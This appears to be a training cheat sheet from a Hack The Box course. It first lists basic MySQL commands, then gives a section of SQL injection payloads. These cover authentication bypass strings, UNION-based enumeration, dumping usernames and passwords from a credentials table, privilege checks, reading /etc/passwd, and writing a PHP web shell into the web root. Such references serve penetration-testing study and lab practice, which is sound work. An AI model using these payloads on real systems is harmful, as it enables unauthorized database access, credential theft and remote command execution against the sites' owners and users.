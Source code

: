 # MySQL

## General

| Command                                             | Description                                       |
|-----------------------------------------------------|---------------------------------------------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database                           |
| `SHOW DATABASES`                                   | List available databases                          |
| `USE users`                                        | Switch to database                                |

## Tables

| Command                                                 | Description                                       |
|---------------------------------------------------------|---------------------------------------------------|
| `CREATE TABLE logins (id INT, ...)`                    | Add a new table                                   |
| `SHOW TABLES`                                          | List available tables in current database         |
| `DESCRIBE logins`                                      | Show table properties and columns                 |
| `INSERT INTO table_name VALUES (value_1,..)`           | Add values to table                               |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values                     |

## Columns

| Command                                                 | Description                                       |
|---------------------------------------------------------|---------------------------------------------------|
| `SELECT * FROM table_name`                             | Show all columns in a table                       |
| `SELECT column1, column2 FROM table_name`              | Show specific columns in a table                  |
| `DROP TABLE logins`                                    | Delete a table                                    |
| `ALTER TABLE logins ADD newColumn INT`                 | Add new column                                    |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column                                   |
| `ALTER TABLE logins MODIFY oldColumn DATE`             | Change column datatype                            |
| `ALTER TABLE logins DROP oldColumn`                    | Delete column                                     |

## Output

| Command                                                 | Description                                       |
|---------------------------------------------------------|---------------------------------------------------|
| `SELECT * FROM logins ORDER BY column_1`               | Sort by column                                    |
| `SELECT * FROM logins ORDER BY column_1 DESC`          | Sort by column in descending order                |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC`  | Sort by two-columns                               |
| `SELECT * FROM logins LIMIT 2`                         | Only show first two results                       |
| `SELECT * FROM logins LIMIT 1, 2`                      | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>`           | List results that meet a condition               |
| `SELECT * FROM logins WHERE username LIKE 'admin%'`    | List results where the name is similar to a given string |

## MySQL Operator Precedence

- Division (/), Multiplication (*), and Modulus (%)
- Addition (+) and Subtraction (-)
- Comparison (=, >, <, <=, >=, !=, LIKE)
- NOT (!)
- AND (&&)
- OR (||)

## SQL Injection

### Payload

| Payload                                    | Description                               |
|--------------------------------------------|-------------------------------------------|
| `admin' or '1'='1`                         | Basic Auth Bypass                         |
| `admin')-- -`                              | Basic Auth Bypass With comments           |

### Union Injection

| Payload                                    | Description                               |
|--------------------------------------------|-------------------------------------------|
| `' order by 1-- -`                         | Detect number of columns using order by   |
| `cn' UNION select 1,2,3-- -`               | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -`     | Basic Union injection                     |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns        |

### DB Enumeration

| Payload                                    | Description                               |
|--------------------------------------------|-------------------------------------------|
| `SELECT @@version`                         | Fingerprint MySQL with query output       |
| `SELECT SLEEP(5)`                          | Fingerprint MySQL with no output          |
| `cn' UNION select 1,database(),2,3-- -`   | Current database name                     |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |

### Privileges

| Payload                                    | Description                               |
|--------------------------------------------|-------------------------------------------|
| `cn' UNION SELECT 1, user(), 3, 4-- -`    | Find current user                         |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |

### File Injection

| Payload                                    | Description                               |
|--------------------------------------------|-------------------------------------------|
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file                 |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
